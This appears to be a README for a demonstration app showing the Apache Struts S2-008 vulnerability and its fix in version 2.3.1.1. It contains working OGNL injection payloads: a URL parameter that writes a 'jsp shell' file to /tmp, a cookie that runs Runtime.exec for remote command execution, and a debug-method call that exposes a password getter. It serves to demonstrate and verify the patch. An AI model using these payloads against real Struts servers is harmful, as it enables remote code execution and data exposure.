 S2-008 example

Affected Struts 2.2.3 and below

Solved with Struts 2.3.1.1

http://localhost:8080/s2-009/example/HelloWorld.action

Action must have a field like below with getter/setter:

`private long id'

add result `input` for action HelloWorld as below
    <result name="input">/example/HelloWorld.jsp</result>

configure action HelloWorld to accept cookies like below:
    <interceptor-ref name="defaultStack"/>
    <interceptor-ref name="cookie">
	    <param name="cookiesName">*</param>
		<param name="cookiesValue">1,2</param>
    </interceptor-ref>

Add public method like below:

    public String getPassword() {
        return "Secret";
    }

Show vulnerability:
- change Struts2 version to 2.2.3
- start application: `mvn jetty:run`
- list file in `/tmp/` folder to show there is no file s2-008.jsp
- open browser
- paste url: http://localhost:8080/s2-008/example/HelloWorld.action?id='%2b(new+java.io.BufferedWriter(new+java.io.FileWriter("/tmp/s2-008.jsp")).append("jsp+shell").close())%2b'
- there be a conversion error
- list `/tmp/` folder again to show that s2-008.jsp file was created and open it to show content
- add cookie: Cookie: (#_memberAccess["allowStaticMethodAccess"]\u003dtrue)(x[@java.lang.Runtime@getRuntime().exec('mate')])
- refresh browser
- show TextMate is running
- remove cookie
- paste url: http://localhost:8080/s2-008/example/HelloWorld!getPassword.action
- show `Secret` message on the page
- stop Jetty

Show solution:
- change Struts2 version to 2.3.1.1
- start application: `mvn jetty:run`
- list file in `/tmp/` folder to show there is no file hello.jsp
- open browser
- paste url: http://localhost:8080/s2-008/example/HelloWorld.action?id='%2b(new+java.io.BufferedWriter(new+java.io.FileWriter("/tmp/s2-008.jsp")).append("jsp+shell").close())%2b'
- list `/tmp/` folder again to show there is no file s2-008.jsp
- add cookie: Cookie: (#_memberAccess["allowStaticMethodAccess"]\u003dtrue)(x[@java.lang.Runtime@getRuntime().exec('mate')])
- refresh browser
- show TextMate is not running
- stop Jetty
